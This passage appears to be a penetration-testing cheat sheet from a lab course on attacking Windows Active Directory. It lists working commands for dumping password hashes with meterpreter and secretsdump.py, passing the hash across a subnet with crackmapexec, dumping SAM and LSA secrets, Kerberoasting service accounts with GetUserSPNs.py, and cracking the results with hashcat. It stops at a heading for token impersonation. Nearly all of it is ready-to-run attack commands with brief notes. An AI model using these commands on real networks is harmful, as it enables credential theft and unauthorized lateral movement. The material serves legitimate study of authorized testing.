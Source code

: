 Grab some local hashes=>

First Way:

For this, we can use meterpreter by using hashdump.
```bash
use windows/smb/psexec
run
hasdump #you will get hashes of users.
```

Second Way:
```bash
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
```

Third Way:
```bash
secretsdump.py administrator:@192.168.138.138 --hashes [LM-HASH]:[NT-HASH]
```

Pass the Hash=>
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H [USER-HASH]
```

Reminder! Cheatsheet of crackmapexec

--local-auth : authenticate locally to each target

--sam : dump SAM hashes from target systems.

--lsa : dump LSA secrets from target systems.

--shares: enumerate shares and access

-L : List available modules for each protocol

-M : Specify module

How to use **available** module for crackmapexec?
```bash
crackmapexec smb 192.168.138.0/24 -u administrator -H [USER-HASH] --local-auth -M lsassy
```

**Reminder**! If you want to access database of crackmapexec, you just need to use **cmedb** command



Kerberoasting=>

1.Get SPNs 
```bash
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request
```

2.Crack the hash
```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Token Impersonation=>
